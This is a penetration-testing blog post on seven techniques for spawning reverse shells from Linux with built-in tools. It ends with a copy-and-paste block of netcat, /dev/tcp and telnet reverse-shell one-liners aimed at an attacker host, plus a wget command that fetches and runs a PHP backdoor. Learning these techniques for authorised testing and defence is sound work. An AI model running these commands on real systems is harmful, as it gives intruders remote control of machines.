 title: 7 Linux Shells Using Built-in Tools
publish: True
categories: [network security]

There are many distributions of linux, and they all do things a little different regarding default security and built-in tool sets. Which means when engaging these different flavors during a pentest, what works against one linux target to get an interactive shell, may not work against another. Well, not to worry my friends, there are many techniques for spawning shells, specifically reverse shells, from linux, and one or more of these techniques is bound to be available no matter which distro you're looking at.

<!-- READMORE -->

The scenario is this: You have the ability to run a simple command, or cause a user to run a simple command, on the target system. Whether it be via a Remote Command Execution vulnerability in a website, or some sort of php injected XSS which causes a privileged user to run commands on the target system. There are many instances of this scenario. Starting from the easiest and most common, here are some of the techniques which can be used to gain reverse shell on the target system.

### #1. netcat

Surprise!!! Nothing new here. Plain and simple. Fire up a listener on the attacker machine on a port which is reachable from the target and connect back to the listener with netcat. Looks like this.

[![](/static/images/posts/netcat.jpg)](/static/images/posts/netcat.jpg)

...just kidding...

[![](/static/images/posts/sh_nc_shell.png)](/static/images/posts/sh_nc_shell.png)

### #2. netcat with GAPING\_SECURITY\_HOLE disabled:

This is a little trick that [Ed Skoudis](https://twitter.com/#!/edskoudis) tweeted about in November of last year, but I haven't seen it widely publicized. It is based on the common technique used to build netcat relays. When the `GAPING_SECURITY_HOLE` is disabled, which means you don't have access to the '-e' option of netcat, most people pass on using netcat and move to something else. Well this just isn't necessary. Create a FIFO file system object and use it as a backpipe to relay standard output from commands piped from netcat to /bin/bash back into netcat. Sounds confusing right? The following image should clear things up.

[![](/static/images/posts/sh_nc_gsh_shell.png)](/static/images/posts/sh_nc_gsh_shell.png)

### #3. netcat without netcat:

I love "hacks" that use features of the operating system against itself. This is one of those "hacks". It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system. It's not always available, but can be quite handy when it is.

[![](/static/images/posts/sh_nc_wo_nc.png)](/static/images/posts/sh_nc_wo_nc.png)

### #4. netcat without netcat or /dev/tcp:

/dev/tcp not available either? Just use telnet with technique #2.

[![](/static/images/posts/sh_nc_telnet.png)](/static/images/posts/sh_nc_telnet.png)

### #5. telnet-to-telnet:

I'm not sure why you'd use this technique, but it's an option, so here it is nonetheless. This is clearly the ugliest of the techniques. This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

[![](/static/images/posts/sh_tel2tel.png)](/static/images/posts/sh_tel2tel.png)

### #6. RCE shell:

On this one I'm cheating a little bit. This applies to Remote Command Execution vulnerabilities only. Rather than manually enter commands into a proxy or browser url, I wrote small python script which gives you the feel of a shell, without spawning anything in reverse from the target. You merely pass the script the vulnerable url with the injectable field replaced with the '&lt;rce&gt;' tag and it presents you with a clean interface for entering commands. In the background, the script is making the request to the web server, parsing the response, and presenting it to you.

[![](/static/images/posts/sh_rce.png)](/static/images/posts/sh_rce.png)

### #7. PHP reverse shell via interactive console:

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

[![](/static/images/posts/sh_php.png)](/static/images/posts/sh_php.png)

I want to end this post by stating that I am not the originator of techniques #1, 2, 3, 5, or 7. The majority of these techniques were learned in Ed Skoudis' amazing Security 504 and 560 classes available through SANS. Technique #4 is something I've never seen but stumbled across as I was conducting the demos for this post, so I'll take credit. Obviously, anyone can do #6, and there are plugins for various automated web app testing software packages that do, but I built my script from the ground up and tailored it to preference. If you know of any additional methods that may be helpful to the pentesting community, please leave in the comments below. Without sharing, we all fail. Thanks, and enjoy!

For copy and paste:

``` bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
